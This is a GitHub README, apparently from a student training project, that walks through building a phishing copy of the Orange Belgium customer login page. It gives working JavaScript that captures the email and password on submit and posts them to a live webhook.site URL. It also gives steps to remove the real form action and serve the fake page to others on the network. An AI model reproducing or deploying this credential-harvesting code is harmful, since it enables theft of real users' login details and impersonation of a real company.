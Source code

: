 # Simulate the Orange Customer Connexion Webpage

## 1) Get the source code of the page

- Go to : https://www.orange.be/fr/e-services/login
- ctrl + s or right click and "save as"

## 2) Get a webhook

- Go to : webhook.site
- Copy the url (you gonna need it soon)

## 3) Write a script to return info to webhook

- open a new JS file here ´data.JS´
- write this script (and use the url of the webhook)

>  let myForm = document.getElementById('sso-form');  // "let name" create a variable and then we put in it the content of an id. Here id of the form
>  let formEmail = document.getElementById('sso-email'); // id of the mail input
>  let formPassword = document.getElementById('sso-password');// id of the password input
>  
>  myForm.addEventListener('submit', (e) => { // we wait for specific moment to run, here it's the submit button
>    e.preventDefault();
>   fetch('https://webhook.site/ccbd4eb0-f4b0-48c0-96da-4a96ab73004c', { //when it's in action the script fetch the data and return it to the web hook url
>       method: "POST",
>        body: JSON.stringify({ //this line transform the data we collect (who's in json format) and transform it into strings
>            username: formEmail.value, //here we say to stock those string into the variable we have creat on the top
>            password: formPassword.value
>        })
>    }).then(window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"); // after all of this the user is redirected to this URL
>  })
>
> ![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/data.js.png)


## 4) Make some change on the HTML 

- remove this part from sso-form :
>  action="https://sso.orange.be/auth/sm/login.fcc" data-soho-check="/e-services/userCheck/b2b" data-soho-target="https://e-services.business.orange.be/fr/espace-client-soho/?fromB2C=true">

- On the bottom of the form put your script link

 [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/callScript.png)
 [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/CallScriptPosition.png)



-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Normaly it should work localy**

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


## Make a local server to host it

- Dont forget to rename your webpage into index.html
- on your folder open the terminal and write this command to launch a python server `py -m http.server` (the default port is 8000)
- You can acces your webpage with localhost:8000
- Other person on the same network can have acces to id with yourIP:8000


**Eazy Peazy Lemon Squezzy**
**RESULT**

On fake Orange
[!](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/orangeCO.png)

On webhook
> [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/webhookResult.png)


